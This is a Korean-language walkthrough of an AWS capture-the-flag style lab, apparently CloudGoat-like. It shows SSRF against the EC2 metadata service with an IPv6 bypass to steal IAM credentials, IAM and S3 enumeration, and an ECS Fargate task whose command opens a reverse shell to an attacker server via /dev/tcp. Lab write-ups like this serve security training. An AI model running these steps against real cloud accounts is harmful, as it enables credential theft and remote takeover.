 ※ 웹 페이지가 먼저 주어짐.

# 실패(Easy) 시나리오 
### ssrf를 이용하여 ec2에 부여되어있는 자격증명을 조회 ( 아래와 같이 우회 필요 )
add your ec2 ip/?url=http://[::ffff:a9fe:a9fe]/latest/meta-data/iam/security-credentials/new_ecs_scenario_s3_role

### 자격증명 등록
aws configure --profile attacker
echo "aws_session_token = {얻은 토큰값}" >> ~/.aws/credentials

### 등록한 사용자에 대한 정보 확인하기 → 역할 이름 확인가능
aws --profile attacker sts get-caller-identity

### role 정보 확인
aws --profile attacker iam get-role --role-name new_ecs_scenario_s3_role
#-> arn:aws:iam::173258975867:role/new_ecs_scenario_s3_role (어디 적어놓으세요 나중에 쓰입니다. )

### 부여된 역할에 대한 정책 확인 ( 관리 정책 확인 ) → S3FullAccess
aws --profile attacker iam list-attached-role-policies --role-name new_ecs_scenario_s3_role

### 부여된 역할에 대한 정책 확인 ( 인라인 정책 확인 ) → new_ecs_scenario_policy
aws --profile attacker iam list-role-policies --role-name new_ecs_scenario_s3_role

### 인라인 정책에 대한 퍼미션 확인.
aws --profile attacker iam get-role-policy --role-name new_ecs_scenario_s3_role --policy-name new_ecs_scenario_policy

### s3 접근하여 플래그 들고오기.
aws --profile attacker s3 ls
aws --profile attacker s3 ls s3://ecs-scenario-bucket-abc123/
aws --profile attacker s3 ls s3://ecs-scenario-bucket-abc123/secret/
aws --profile attacker s3 cp s3://ecs-scenario-bucket-abc123/secret/flag.txt .

cat flag.txt

※ 이메일 확인


# 성공(Hard) 시나리오

### 존재하는 클러스터 확인
aws --profile attacker ecs list-clusters

### 클러스터 정보 확인하기.
aws --profile attacker ecs describe-clusters --clusters new_ecs_scenario_cluster

### 클러스터 내에서 돌아가고 있는 인스턴스 확인.
aws --profile attacker  ecs list-container-instances --cluster arn:aws:ecs:us-east-1:173258975867:cluster/new_ecs_scenario_cluster

### 작동하고 있는 인스턴스에 대한 자세한 정보 출력
aws --profile attacker ecs describe-container-instances --cluster arn:aws:ecs:us-east-1:173258975867:cluster/new_ecs_scenario_cluster --container-instances arn:aws:ecs:us-east-1:173258975867:container-instance/new_ecs_scenario_cluster/2d3ed51ad04847dd894dc78e263adfb3

### ec2 인스턴스 조회
aws --profile attacker ec2 describe-instances --instance-ids i-0eb21dd38f6f099c2


※ 공격자는 개인 서버로 nc를 이용해 포트를 열고 리버스 쉘을 준비합니다.


### 리버스쉘 수행 작업 정의하기
aws --profile attacker ecs register-task-definition --family iam_exfiltration --task-role-arn arn:aws:iam::173258975867:role/new_ecs_scenario_s3_role --network-mode "awsvpc" --cpu 256 --memory 512 --requires-compatibilities "[\"FARGATE\"]" --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/(add your server) 0>&1\\\"\"]}]"

### 사용할 수 있는 subnet 확인
aws --profile attacker ec2 describe-subnets   

### 정의한 작업 실행하기.
aws --profile attacker ecs run-task --task-definition iam_exfiltration --cluster arn:aws:ecs:us-east-1:173258975867:cluster/new_ecs_scenario_cluster --launch-type FARGATE --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-0c73fcdbfb99c884b\"]}}"


[리버스 쉘 성공 시]
apt-get update
apt-get install awscli
aws s3 ls
aws s3 ls s3://ecs-scenario-bucket-abc123/
aws s3 ls s3://ecs-scenario-bucket-abc123/secret/
aws s3 cp s3://ecs-scenario-bucket-abc123/secret/flag.txt .
cat flag.txt

===================================================================
